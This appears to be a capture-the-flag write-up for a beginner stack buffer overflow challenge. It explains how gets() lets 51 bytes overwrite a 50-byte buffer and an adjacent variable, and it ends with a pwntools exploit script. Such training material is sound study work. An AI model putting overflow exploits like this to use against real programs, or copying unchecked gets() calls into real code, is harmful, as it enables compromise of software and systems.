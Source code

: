 # 0_bof
In `0_bof.c` we can see that on line 12, there is a call for `gets`.

`gets` does not have any regard for the size of the buffer it is writing to, so it has potential to write more bytes into the buffer than there is space allocated for it.

With that in mind, you could potentially write past the buffer given by the program.

Looking at the source code, we see that `arr` and `vuln` are initialised right next to each other, and this would mean that they are placed right next to each other in memory, more specifically, the stack.

arr | vuln
--- | ---
{50 byte buffer} | B

When we run `0_bof`, we get this output:

![program output](./images/output.png)

This is hinting that we are supposed to change that 'B' into an 'A'.

Using what we learned from above, we could see that if we input 51 bytes of 'A's
we will successfully overwrite the 50 allocated to `arr` and 1 additional byte which overflows from the `arr` buffer into the variable `vuln`.

Doing so will give us this.

arr | vuln
--- | ---
AAAA ... AAAA | A



My solution:
```py
from pwn import *

#context.log_level = "debug"
remote_conn = False

IP = ""
PORT = ""
FILENAME = "./0_bof"

if remote_conn:
    p = remote(IP, PORT)
    elf = ELF(FILENAME)
else:
    p = process(FILENAME)
    elf = p.elf

payload = "A"*51
p.sendlineafter("letter?", payload)

p.interactive()
```
